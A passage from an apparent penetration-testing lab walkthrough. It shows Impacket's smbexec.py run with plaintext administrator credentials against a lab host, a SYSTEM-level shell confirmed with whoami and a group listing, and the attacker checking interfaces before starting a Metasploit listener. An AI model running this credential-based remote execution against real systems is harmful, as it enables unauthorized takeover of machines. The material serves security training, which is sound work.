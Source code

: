 **Explanation:** The `rpc_s_access_denied` error indicates that the `sysadmin` account does not have sufficient privileges to execute the desired actions on the target machine.

_Retry the command using the `administrator` credentials._

`smbexec.py administrator:carolina@10.4.28.143`:
```
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute ←
```

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Confirm that the shell has escalated privileges to `NT AUTHORITY\SYSTEM`, indicating that the exploitation was successful._

`whoami`:
```
nt authority\system ←
```

_Validate the current user’s group memberships to ensure that the `administrator` account is part of the Administrators group on the target machine._

`net localgroup Administrators`:
```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator ←
The command completed successfully.
```

<span style="color: #e57373;">**Attacker machine**</span>.

_Check the network configuration on the attacker machine to set up the Metasploit listener on the correct interface (here, `eth1`)._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.3  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:03  txqueuelen 0  (Ethernet)
        RX packets 12147  bytes 936881 (914.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 11210  bytes 3954577 (3.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.50.5  netmask 255.255.255.0  broadcast 10.10.50.255 ←
        ether 02:42:0a:0a:32:05  txqueuelen 0  (Ethernet)
        RX packets 95736  bytes 9548154 (9.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 100010  bytes 11193002 (10.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 53214  bytes 120530101 (114.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 53214  bytes 120530101 (114.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
